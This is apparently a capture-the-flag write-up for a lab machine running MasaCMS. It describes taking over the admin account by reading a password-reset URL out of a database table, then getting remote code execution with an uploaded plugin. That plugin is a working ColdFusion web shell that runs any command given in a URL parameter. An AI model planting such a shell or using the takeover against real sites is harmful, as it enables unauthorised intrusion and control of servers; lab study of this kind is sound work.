 ### Initial Access

After obtaining this information I realized since this is a CMS, there could be a reset password mechanism in place. Turns out, there is on the admin login on `http://freedom.htb/admin`.

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

After entering the admin email and re-running the table dump script, I have found that the `tredirects`table will store the URL to edit the profile.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

When accessing the URL, we can now reset the admin's password to persist our access.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

CMS applications usually have some sort of plugin systems, and that is also the case for Mura/MasaCMS. Since plugins are executable, we can leverage this to get some sort of RCE. I have made (re: asked ChatGPT to make me one) a MasaCMS plugin to run shell commands.

```html
<!--- execute.cfm --->
<cftry>
    <!--- Get the query parameter "cmd" --->
    <cfparam name="url.cmd" default="">

    <!--- Use cfexecute to run the command from the query parameter --->
    <cfexecute name="#url.cmd#" variable="output" timeout="10"></cfexecute>

    <!--- Output the result --->
    <cfoutput>
        Executed Command: #url.cmd#<br>
        Output: #output#
    </cfoutput>

    <cfcatch type="any">
        <!--- Handle errors securely --->
        <cfoutput>Error: #cfcatch.message#</cfoutput>
    </cfcatch>
</cftry>
```

And MasaCMS also needs a `config.xml.cfm`file on the `plugins/` directory. I basically stole this from the documentation.

```html
<plugin>
<name>My First Plugin</name>
<package>MyFirstPlugin</package>
<loadPriority>5</loadPriority>
<version>1.0</version>
<provider>Blue River Interactive Group</provider>
<providerURL>http://www.blueriver.com</providerURL>
<category>Utility</category>
<directoryFormat>packageOnly</directoryFormat>
<ormCFCLocation>/orm</ormCFCLocation>
<customTagPaths>customtags</customTagPaths>
<autoDeploy>true</autoDeploy>
<siteID>siteA,siteB</siteID>
<mappings>...</mappings>
<settings>...</settings>
<eventHandlers>...</eventHandlers>
<displayobjects>...</displayobjects>
<extensions>...</extensions>
</plugin>
```
